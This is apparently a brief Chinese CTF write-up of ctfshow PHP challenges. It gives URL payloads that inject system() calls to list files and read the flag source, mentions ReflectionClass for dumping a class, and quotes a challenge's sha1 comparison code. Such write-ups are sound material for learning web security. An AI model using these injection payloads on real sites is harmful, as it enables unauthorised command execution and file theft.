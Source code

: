 v1,v2,v3其中传一个数字就可以过第一个if

v2中不能有 `;`

v3中有但不限于 `;`

`?v1=1&v2=system("ls")/*&v3=*/;`

`?v1=1&v2=system("cat ctfshow.php")/*&v3=*/;`

源代码里出flag

### ctfshow2

运用反射类

`echo new Reflectionclass`

打印出类中的东西

秒了

### CTFshow3

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:27:20

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}



?>
```



v2用GET传1
